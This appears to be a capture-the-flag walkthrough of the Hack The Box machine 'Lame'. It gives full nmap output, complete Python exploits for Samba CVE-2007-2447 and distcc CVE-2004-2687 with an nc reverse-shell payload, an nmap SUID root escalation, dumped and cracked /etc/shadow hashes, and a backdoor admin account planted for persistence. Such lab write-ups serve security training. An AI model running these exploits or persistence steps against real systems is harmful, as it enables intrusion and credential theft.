

# Lame

## Target Details

IP Address: 10.10.10.3

## Full Walk Through

### Port Scans

#### Active Ports Discovery

```bash
sudo nmap -sS 10.10.10.3 -p-
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-25 13:58 IST
Verbosity Increased to 1.
Verbosity Increased to 2.
Discovered open port 445/tcp on 10.10.10.3
Discovered open port 21/tcp on 10.10.10.3
Discovered open port 22/tcp on 10.10.10.3
SYN Stealth Scan Timing: About 2.07% done; ETC: 14:23 (0:24:28 remaining)
SYN Stealth Scan Timing: About 5.11% done; ETC: 14:18 (0:18:53 remaining)
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 6.82% done; ETC: 14:16 (0:16:52 remaining)
SYN Stealth Scan Timing: About 13.08% done; ETC: 14:11 (0:11:31 remaining)
SYN Stealth Scan Timing: About 21.98% done; ETC: 14:08 (0:07:56 remaining)
SYN Stealth Scan Timing: About 32.79% done; ETC: 14:06 (0:05:36 remaining)
SYN Stealth Scan Timing: About 44.54% done; ETC: 14:05 (0:04:02 remaining)
SYN Stealth Scan Timing: About 53.01% done; ETC: 14:05 (0:03:19 remaining)
SYN Stealth Scan Timing: About 62.90% done; ETC: 14:05 (0:02:30 remaining)
SYN Stealth Scan Timing: About 73.37% done; ETC: 14:04 (0:01:43 remaining)
SYN Stealth Scan Timing: About 86.91% done; ETC: 14:04 (0:00:47 remaining)
Discovered open port 3632/tcp on 10.10.10.3
Completed SYN Stealth Scan at 14:03, 339.25s elapsed (65535 total ports)
Nmap scan report for 10.10.10.3
Host is up (0.26s latency).
Scanned at 2023-09-25 13:58:16 IST for 339s
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 339.66 seconds
           Raw packets sent: 131284 (5.776MB) | Rcvd: 221 (9.708KB)
```

#### Default Scripts Scan

```bash
sudo nmap -sC -sV -O  10.10.10.3 -p 21,22,139,445,3632
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-25 14:10 IST
Verbosity Increased to 1.
Verbosity Increased to 2.
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 80.00% done; ETC: 14:11 (0:00:03 remaining)
Completed Service scan at 14:11, 13.50s elapsed (5 services on 1 host)
Initiating OS detection (try #1) against 10.10.10.3
Retrying OS detection (try #2) against 10.10.10.3
NSE: Script scanning 10.10.10.3.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:11
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE: Active NSE Script Threads: 699 (0 waiting)
NSE Timing: About 0.00% done
NSE: [ftp-bounce 10.10.10.3:21] PORT response: 500 Illegal PORT command.
NSE Timing: About 99.86% done; ETC: 14:11 (0:00:00 remaining)
Completed NSE at 14:11, 40.11s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:11
Completed NSE at 14:12, 5.45s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:12
Completed NSE at 14:12, 0.00s elapsed
Nmap scan report for 10.10.10.3
Host is up (0.62s latency).
Scanned at 2023-09-25 14:10:47 IST for 74s

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALz4hsc8a2Srq4nlW960qV8xwBG0JC+jI7fWxm5METIJH4tKr/xUTwsTYEYnaZLzcOiy21D3ZvOwYb6AA3765zdgCd2Tgand7F0YD5UtXG7b7fbz99chReivL0SIWEG/E96Ai+pqYMP2WD5KaOJwSIXSUajnU5oWmY5x85sBw+XDAAAAFQDFkMpmdFQTF+oRqaoSNVU7Z+hjSwAAAIBCQxNKzi1TyP+QJIFa3M0oLqCVWI0We/ARtXrzpBOJ/dt0hTJXCeYisKqcdwdtyIn8OUCOyrIjqNuA2QW217oQ6wXpbFh+5AQm8Hl3b6C6o8lX3Ptw+Y4dp0lzfWHwZ/jzHwtuaDQaok7u1f971lEazeJLqfiWrAzoklqSWyDQJAAAAIA1lAD3xWYkeIeHv/R3P9i+XaoI7imFkMuYXCDTq843YU6Td+0mWpllCqAWUV/CQamGgQLtYy5S0ueoks01MoKdOMMhKVwqdr08nvCBdNKjIEd3gH6oBk/YRnjzxlEAYBsvCmM4a0jmhz0oNiRWlc/F+bkUeFKrBx/D2fdfZmhrGg==
|   2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAstqnuFMBOZvO3WTEjP4TUdjgWkIVNdTq6kboEDjteOfc65TlI7sRvQBwqAhQjeeyyIk8T55gMDkOD0akSlSXvLDcmcdYfxeIF0ZSuT+nkRhij7XSSA/Oc5QSk3sJ/SInfb78e3anbRHpmkJcVgETJ5WhKObUNf1AKZW++4Xlc63M4KI5cjvMMIPEVOyR3AKmI78Fo3HJjYucg87JjLeC66I7+dlEYX6zT8i1XYwa/L1vZ3qSJISGVu8kRPikMv/cNSvki4j+qDYyZ2E5497W87+Ed46/8P42LNGoOV8OcX/ro6pAcbEPUdUEfkJrqi2YXbhvwIJ0gFMb6wfe5cnQew==
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  x9▒��U      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.23 (92%), DD-WRT v24-sp1 (Linux 2.4.36) (90%), Arris TG862G/CT cable modem (90%), Belkin N300 WAP (Linux 2.6.30) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=9/25%OT=21%CT=%CU=%PV=Y%G=N%TM=651147D9%P=x86_64-pc-linux-gnu)
SEQ(SP=C9%GCD=1%ISR=CF%TI=Z%II=I%TS=7)
SEQ(SP=CF%GCD=1%ISR=D2%TI=Z%II=I%TS=7)
OPS(O1=M53AST11NW5%O2=M53AST11NW5%O3=M53ANNT11NW5%O4=M53AST11NW5%O5=M53AST11NW5%O6=M53AST11)
WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)
ECN(R=Y%DF=Y%TG=40%W=16D0%O=M53ANNSNW5%CC=N%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.008 days (since Mon Sep 25 13:59:56 2023)
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-25T04:41:27-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59488/tcp): CLEAN (Timeout)
|   Check 2 (port 51840/tcp): CLEAN (Timeout)
|   Check 3 (port 40169/udp): CLEAN (Timeout)
|   Check 4 (port 37617/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h00m09s, deviation: 2h49m45s, median: 7s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:12
Completed NSE at 14:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:12
Completed NSE at 14:12, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:12
Completed NSE at 14:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.15 seconds
           Raw packets sent: 77 (6.976KB) | Rcvd: 27 (1.848KB)
```

### Vulnerability Scan with Version

```bash
sudo nmap --script=vuln -sV -O  10.10.10.3 -p 21,22,139,445,3632
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-25 14:21 IST
Verbosity Increased to 1.
Verbosity Increased to 2.
NSE Timing: About 99.84% done; ETC: 14:23 (0:00:00 remaining)
Stats: 0:01:49 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE: Active NSE Script Threads: 1 (1 waiting)
NSE Timing: About 99.84% done; ETC: 14:23 (0:00:00 remaining)
NSE Timing: About 99.84% done; ETC: 14:23 (0:00:00 remaining)
NSE Timing: About 99.84% done; ETC: 14:24 (0:00:00 remaining)
NSE Timing: About 99.84% done; ETC: 14:24 (0:00:00 remaining)
NSE Timing: About 99.84% done; ETC: 14:25 (0:00:00 remaining)
Completed NSE at 14:25, 207.09s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:25
Completed NSE at 14:25, 0.02s elapsed
Nmap scan report for 10.10.10.3
Host is up (0.58s latency).
Scanned at 2023-09-25 14:21:41 IST for 235s

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:4.7p1: 
|       SECURITYVULNS:VULN:8166 7.5     https://vulners.com/securityvulns/SECURITYVULNS:VULN:8166
|       CVE-2010-4478   7.5     https://vulners.com/cve/CVE-2010-4478
|       CVE-2008-1657   6.5     https://vulners.com/cve/CVE-2008-1657
|       SSV:60656       5.0     https://vulners.com/seebug/SSV:60656    *EXPLOIT*
|       CVE-2010-5107   5.0     https://vulners.com/cve/CVE-2010-5107
|       CVE-2012-0814   3.5     https://vulners.com/cve/CVE-2012-0814
|       CVE-2011-5000   3.5     https://vulners.com/cve/CVE-2011-5000
|       CVE-2008-5161   2.6     https://vulners.com/cve/CVE-2008-5161
|       CVE-2011-4327   2.1     https://vulners.com/cve/CVE-2011-4327
|       CVE-2008-3259   1.2     https://vulners.com/cve/CVE-2008-3259
|_      SECURITYVULNS:VULN:9455 0.0     https://vulners.com/securityvulns/SECURITYVULNS:VULN:9455
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://distcc.github.io/security.html
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.23 (91%), DD-WRT v24-sp1 (Linux 2.4.36) (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.27 (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%), Linux 2.6.22 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=9/25%OT=21%CT=%CU=%PV=Y%G=N%TM=65114B08%P=x86_64-pc-linux-gnu)
SEQ(SP=C7%GCD=1%ISR=C9%TI=Z%II=I%TS=6)
SEQ(SP=CE%GCD=1%ISR=CD%TI=Z%II=I%TS=7)
OPS(O1=M53AST11NW5%O2=M53AST11NW5%O3=M53ANNT11NW5%O4=M53AST11NW5%O5=M53AST11NW5%O6=M53AST11)
WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)
ECN(R=Y%DF=Y%TG=40%W=16D0%O=M53ANNSNW5%CC=N%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.018 days (since Mon Sep 25 14:00:02 2023)
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-061: false

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:25
Completed NSE at 14:25, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:25
Completed NSE at 14:25, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 245.11 seconds
           Raw packets sent: 77 (6.976KB) | Rcvd: 27 (1.848KB)
```

### Initial Access

#### VSFTPd Anonymous Login

We can perform anonymous login into the FTP server, but it has no data in it.

```bash
ftp 10.10.10.3                                     
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:fvalkyrie): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

#### VSFTPd Remote Command Execution (Not Exploitable)


#### Samba 3.0.20 Remote Code Execution - [CVE-2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html) (Privilege Escalation)

To do this RCE we will use the following code:

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

# From : https://github.com/amriunix/cve-2007-2447
# case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/bash >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

It uses a named pipe (`/tmp/hago`) to pass data between the local machine and the remote machine, with `nc` establishing the network connection and `/bin/bash` running on the remote machine to provide an interactive shell session.

We setup a netcat listener on the attacker terminal:

```
nc -vnlp 8888
```

Then we execute the code:

```
./smbusrmap.py 10.10.10.3 445 10.10.16.4 8888
```

<figure><figcaption><p>Exploit Execution</p></figcaption></figure>

<figure><figcaption><p>Reverse Shell</p></figcaption></figure>

#### DistCC 4.2.4 Remote Command Execution - [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687)

We use the following code for the RCE (Code isn't written by me, I just verified it):

```python
#!/usr/bin/env python3
import socket
import string
import random
import argparse

# Generate a random alpha num string (Evade some signature base detection?)
def rand_text_alphanumeric(len):
    str = ""
    for i in range(len):
        str += random.choice(string.ascii_letters + string.digits)
    return str

# Read STDERR / STDOUT returned by remote service.
def read_std(s):
    s.recv(4) # Ignore
    len = int(s.recv(8), 16) # Get output length
    if len != 0:
        return s.recv(len)

# Trigger Exploit
def exploit(command, host, port):
    args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

    payload = "DIST00000001" + "ARGC%.8x" % len(args)

    for arg in args:
        payload += "ARGV%.8x%s" % (len(arg), arg)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    socket.setdefaulttimeout(5)
    s.settimeout(5)

    if s.connect_ex((host, port)) == 0:
        print("[*] Connected to remote service")
        try:
            s.send(payload.encode())
            dtag = "DOTI0000000A" + rand_text_alphanumeric(10)
            s.send(dtag.encode())
            s.recv(24)
            print("\n--- BEGIN BUFFER ---\n")
            buff = read_std(s) # STDERR
            if buff:
                print(buff.decode())
            buff = read_std(s) # STDOUT
            if buff:
                print(buff.decode())
            print("\n--- END BUFFER ---\n")
            print("[*] Done.")
        except socket.timeout:
            print("[!] Socket Timeout")
        except socket.error:
            print("[!] Socket Error")
        except Exception:
            print("[!] Exception Raised")
        finally:
            s.close()
    else:
        print("[!] Failed to connect to %s on port %d" % (host, port))


parser = argparse.ArgumentParser(description='CVE-2004-2687 (DISTCC RCE)')

parser.add_argument('-t',
                    action="store",
                    dest="host",
                    required=True,
                    help="Target IP/HOST")
parser.add_argument('-p',
                    action="store",
                    type=int, dest="port",
                    default=3632,
                    help="DistCCd listening port")
parser.add_argument('-c',
                    action="store",
                    dest="command",
                    default="id",
                    help="Command to run on target system")

try:
    argv = parser.parse_args()

    exploit(argv.command, argv.host, argv.port)
except IOError:
    parse.error
```


### Privilege Escalation

#### LinPEAS to find common privilege escalation vectors

We import `LinPEAS.sh` into the target by hosting the file using a python HTTP server.&#x20;

On attacker machine:

```
python3 -m http.server
```

On target machine:

```
curl "http://10.10.10.3:8000/LinPEAS.sh" > linpeas.sh 
```

```
chmod +x linpeas.sh
./linpeas.sh
```

The most interesting results from `LinPEAS` are:

**1) Nmap with SUID set**

<figure><figcaption><p>Nmap with SUID set</p></figcaption></figure>

**2) MYSQL root user login requires no password**

<figure><figcaption><p>MySQL details</p></figcaption></figure>

<figure><figcaption><p>MySQL root user without a password</p></figcaption></figure>

Other interesting finds:

1\) SSH with root login enabled (can be used for persistence)

<figure><figcaption><p>SSH has root login enabled</p></figcaption></figure>

2\) Active ports

<figure><figcaption><p>All other active services</p></figcaption></figure>

#### Privilege Escalation with Nmap Interactive shell

Nmap has an interactive mode for versions less than 5.x and can be used for privilege escalation (Read this: [https://gtfobins.github.io/gtfobins/nmap/#shell](https://gtfobins.github.io/gtfobins/nmap/#shell))

```
daemon@lame:/tmp$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
sh-3.2# whoami
whoami
root
```

### Post Exploitation

#### Cracking passwords from passwd and shadow files

Once we gain privileged access either via the SMB exploit or via nmap, we can dump out the shadow files and passwd files for the target.

The `/etc/passwd` contents:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:65534::/var/lib/snmp:/bin/false
makis:x:1003:1003::/home/makis:/bin/sh
```

The `/etc/shadow` contents:

```
root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0:17239:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.:17239:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$dwLrUikz$LRJRShCPfPyYb3r6pinyM.:17239:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
service:$1$cwdqim5m$bw71JTFHNWLjDTmYTNN9j/:17239:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
makis:$1$Yp7BAV10$7yHWur1KMMwK5b8KRZ2yK.:17239:0:99999:7:::
```

From these we can crack hashes and get the credentials for the following users:

```bash
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
john --show passwords 
```

```
sys:qazwsxedc:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
postgres:qweasdzxc:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
service:123qweasd:1002:1002:,,,:/home/service:/bin/bash
```

#### Gaining persistence with new user account

To gain persistence we can ssh into the target with the credentials for the service user and escalate privilege via nmap interactive shell and create a new user account "kube".

<figure><figcaption><p>SSH into service user</p></figcaption></figure>

By checking the `/etc/sudoers` file we can see that our new user has to be in the `admin` group to have `sudo` access.

```
sh-3.2# cat /etc/sudoers

# /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# See the man page for details on how to write a sudoers file.
#

Defaults        env_reset

# Uncomment to allow members of group sudo to not need a password
# %sudo ALL=NOPASSWD: ALL

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
```

So we create the new user as follows:&#x20;

```
sh-3.2# useradd -m -s /bin/bas kube
sh-3.2# usermod -aG admin kube
sh-3.2# groups kube
kube admin
```

Now to set the password we can use our direct root netcat-shell from the SMB shell. The reason we did this is because the netcat-shell has an unfriendly interface and makes it difficult to work with it.

<figure><figcaption><p>Setting the password for the kube user</p></figcaption></figure>

Once set we can login as kube and escalate our privileges to root user using kube's password.

<figure><figcaption><p>Complete persistence</p></figcaption></figure>
